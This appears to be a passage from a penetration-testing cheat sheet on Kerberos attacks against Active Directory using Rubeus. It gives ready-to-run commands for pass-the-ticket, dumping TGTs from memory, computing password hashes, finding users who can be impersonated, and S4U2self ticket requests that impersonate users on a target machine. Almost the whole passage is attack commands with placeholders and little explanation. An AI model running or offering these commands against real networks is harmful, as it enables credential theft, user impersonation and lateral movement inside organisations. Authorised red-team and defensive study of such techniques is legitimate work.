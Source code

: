 #### Save ticket to file
```
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```

#### Get info on ticket
```
./Rubeus.exe describe /ticket:<TICKET FILE>
```

#### Load Ticket into memory
```
.\Rubeus.exe /ticket:<TICKET BASE64> /ptt
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE> /ptt
```

#### Calc hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

### S4U2self
- Gain access to a domain computer if we have its RC4, AES256 or TGT.
- There are means of obtaining a TGT for a computer without already having local admin access to it, such as pairing the Printer Bug and a machine with unconstrained delegation, NTLM relaying scenarios and Active Directory Certificate Service abuse

#### Dump TGT
```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<LUID> /service:krbtgt
```

#### Check for user to impersonate
```
Get-DomainUser | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Request TGS
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /impersonateuser:<USER> /self /altservice:cifs/<COMPUTER FQDN> /user:<COMPUTERNAME>$ /ticket:<TGT TICKET> /nowrap
```

#### Load the ticket
```
.\Rubeus.exe /ticket:<TICKET BASE64> /ptt
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE> /ptt
```
 